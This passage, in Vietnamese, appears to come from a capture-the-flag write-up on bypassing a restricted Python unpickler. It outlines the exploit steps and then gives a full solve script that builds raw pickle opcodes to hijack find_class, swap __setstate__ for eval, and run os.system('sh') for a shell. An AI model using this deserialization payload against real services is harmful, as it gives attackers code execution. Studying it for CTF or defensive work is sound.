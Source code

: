 Oke vậy tất cả mảnh ghép đã có đủ, flow cuối cùng sẽ như sau:
- Lấy method `get` của `__builtins__` để ghi đè `find_class` của `SecureUnpickler`
- Ghi đè `__setattr__` của `__main__` thành `eval`
- Trigger `__setstate__` với `state` là code python để chạy eval

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/faf14e7b-92dd-4b89-bb64-ef64c9d8d514)

Phần này mình không giải thích kỹ để các bạn có thể tự giải và hiểu hơn về pickle

Đây là script giải để các bạn tham khảo
```py 
from pwn import *
import pickletools


data = pickle.PROTO + bytes([5])

data += pickle.GLOBAL + b"__main__\n__main__\n"
data += pickle.BINPUT + bytes([1]) # save __main__ to memo[1]
data += pickle.POP

data += pickle.GLOBAL + b"__main__\nSecureUnpickler\n" 
data += pickle.BINPUT + bytes([2]) # save SecureUnpickler to memo[2]
data += pickle.POP

data += pickle.GLOBAL + b"__main__\n__main__\n"

data += pickle.MARK
data += pickle.STRING + b"'__main__'\n"
data += pickle.GLOBAL + b"__main__\n__builtins__\n"
data += pickle.DICT
data += pickle.BUILD

data += pickle.GLOBAL + b"__main__\nget\n"
data += pickle.BINPUT + bytes([3]) # save get to memo[3]
data += pickle.POP

# SecureUnpickler.find_class = __builtins__.get
data += pickle.BINGET + bytes([2])
data += pickle.NONE
data += pickle.MARK
data += pickle.STRING + b"'find_class'\n"
data += pickle.BINGET + bytes([3])
data += pickle.DICT
data += pickle.TUPLE2
data += pickle.BUILD 

# __main__.__setstate__ = __builtins__.eval
data += pickle.BINGET + bytes([1])
data += pickle.NONE
data += pickle.MARK
data += pickle.STRING + b"'__setstate__'\n"
data += pickle.GLOBAL + b"eval\naaa\n"
data += pickle.DICT
data += pickle.TUPLE2
data += pickle.BUILD 
data += pickle.POP
data += pickle.POP

# trigger eval("'__import__(\"os\").system(\"sh\")'\n")
data += pickle.BINGET + bytes([1])
data += pickle.STRING + b"'__import__(\"os\").system(\"sh\")'\n"
data += pickle.BUILD
data += pickle.POP
```